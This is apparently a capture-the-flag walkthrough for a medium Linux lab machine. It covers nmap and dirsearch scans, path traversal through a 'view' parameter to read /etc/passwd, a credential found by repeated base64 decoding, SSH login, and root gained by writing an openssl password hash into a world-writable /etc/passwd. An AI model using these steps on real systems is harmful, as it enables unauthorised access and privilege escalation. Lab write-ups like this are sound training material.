

## Machine Info

| **OS** | **Difficulty** | **Released** |
| --- | --- | --- |
| Linux | Medium | 2021 |


This machine in CTF on **`cybertalent`** and  we should Get The highest privilege on the machine and find the flag!

## Scanning

Using nmap we found this machine has ssh and http service after more search we found http service is vulnerable to  **`CVE-2019-0211`** but this thing is not interested so we start to fuzzing on web application for this machine

```bash
nmap -sV -sC -T5 -A 54.193.156.243  
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-24 13:07 EET
Nmap scan report for ec2-54-193-156-243.us-west-1.compute.amazonaws.com (54.193.156.243)
Host is up (0.22s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8d:7d:11:8e:72:c4:7c:08:8e:62:a1:ef:ec:2e:88:45 (RSA)
|   256 b6:81:30:7e:1a:55:bc:50:00:41:1f:21:08:53:3e:6e (ECDSA)
|_  256 48:ae:21:12:45:59:74:c8:bf:ba:70:d8:88:2c:ac:3e (ED25519)
25/tcp   filtered smtp
80/tcp   open     http        Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
2525/tcp filtered ms-v-worlds

```



## Fuzzing

we start to fuzzing on directory using diresearch and we found some interested endpoints

```bash
dirsearch -u http://54.193.156.243/ --crawl --full-url
```

```
[13:11:24] 200 -  474B  - http://54.193.156.243/index.php                   
[13:11:25] 200 -  474B  - http://54.193.156.243/index.php/login/            
[13:11:25] 200 -  244B  - http://54.193.156.243/index.php?view=about-us.html
[13:11:25] 200 -  474B  - http://54.193.156.243/index.php/login/index.php   
[13:11:25] 200 -  269B  - http://54.193.156.243/index.php?view=contact-us.html
[13:11:25] 200 -  244B  - http://54.193.156.243/index.php/login/index.php?view=about-us.html
[13:11:25] 200 -  269B  - http://54.193.156.243/index.php/login/index.php?view=contact-us.html

```


### Path Traversal

we try to exploit this vulnerability on **view** parameter


from `/etc/passwd` we found 3 users can login on this machine

```bash
root        → /bin/bash
ubuntu      → /bin/bash
john        → /bin/bash
```

## Foothold

after search on endpoint we found **contact** endpoint has something may be interested copy 


copy this word and go to view parameter again to discover the content of this file


it’s look a base64 encoding after we try to manual decoding we couldn’t find anything it’s may encoding more than once so we made a script to decode it

```bash
import base64
data ="base64 text" #base64 text
for i in range(25):
 data = base64.b64decode(data)
print(data)   
```

now we try to login on machine using john user and his password

```bash
ssh john@54.193.156.243  
```

## PrivEsc

first we start to check files permission like shadow and passwd file and we found `/etc/passwd` is writable 

```bash
john@ip-172-31-31-102:~$ ls -las /etc/passwd
4 -rwxrwxrwx 1 root root 1657 Jan 24 11:40 /etc/passwd
```

**Exploit writable `/etc/passwd`**

[https://vk9-sec.com/privilege-escalation-weak-file-permissions-writable-etc-passwd/](https://vk9-sec.com/privilege-escalation-weak-file-permissions-writable-etc-passwd/)

from attacker machine 

```bash
openssl passwd pass123
```


then go to victim machine and open `/etc/passwd`  then add this hash on root user

**Before edit**


**After**


then we got a root

